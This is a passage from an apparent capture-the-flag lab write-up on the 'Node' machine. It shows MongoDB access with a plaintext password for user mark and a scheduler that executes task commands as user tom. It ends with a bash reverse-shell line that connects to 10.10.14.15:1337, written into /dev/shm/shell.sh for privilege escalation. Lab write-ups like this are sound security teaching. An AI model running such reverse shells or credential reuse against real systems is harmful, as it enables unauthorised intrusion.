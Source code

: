 ![](/Linux/Linux-Medium/Node/Screenshots/tomapp.png)

In addition to examining the `app.js` file within the myplace directory, we decided to analyze this newly identified app.js. During our analysis, we uncovered a distinct MongoDB URI associated with a database named `scheduler`, which is different from the previously discovered `myplace` database.

![](/Linux/Linux-Medium/Node/Screenshots/mongodb.png)

The application attempts to retrieve the value of the `cmd` parameter from the `tasks` collection within the `scheduler` database. It then executes this command under the context of the “tom” user and subsequently removes it. As a result, command execution is achieved with the privileges of the “tom” user. Now, our objective is to acquire a shell.

Next, we endeavor to access the “scheduler” database as the “mark” user through the utilization of the `mongo` command below.

```sh
mongo -u mark -p 5AYRft73VtFpc84k scheduler
```


![](/Linux/Linux-Medium/Node/Screenshots/scheduler.png)

We can see the existence of a collection “tasks”. Our next step involves configuring the reverse shell command within the “cmd” value. To accomplish this, we generate a script named “shell.sh” within the /dev/shm directory.

```sh
echo "bash -i >& /dev/tcp/10.10.14.15/1337 0>&1" >>shell.sh
```
